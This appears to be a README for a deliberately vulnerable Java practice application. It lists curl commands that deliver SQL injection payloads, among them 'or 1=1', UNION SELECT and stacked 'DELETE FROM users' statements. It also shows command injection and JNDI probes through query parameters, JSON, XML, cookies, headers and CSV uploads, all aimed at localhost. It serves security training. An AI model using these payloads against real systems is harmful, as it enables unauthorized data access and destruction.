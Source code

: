 # Vulnerable

## Deploy

```bash
rm vulnerable.jar
wget https://github.com/michalszalkowski/vulnerable/raw/master/vulnerable.jar
java -jar vulnerable.jar
```

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "cmd=id" http://localhost:8080/vun/cmd/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/1/ -H "Content-Type: application/json" -d "{\"filter\": \"id\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/1/ -H "Content-Type: application/xml" -d "<filters><filter>id</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/1/ --cookie "cmd=id"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/1/ -H "X-Filter:id"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"id\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/1/ --form file="@/tmp/file2.csv"
```

## JNDI Injection
```bash
curl --get --data-urlencode "payload=dog" http://localhost:8080/vun/jndi/example1/1/
```
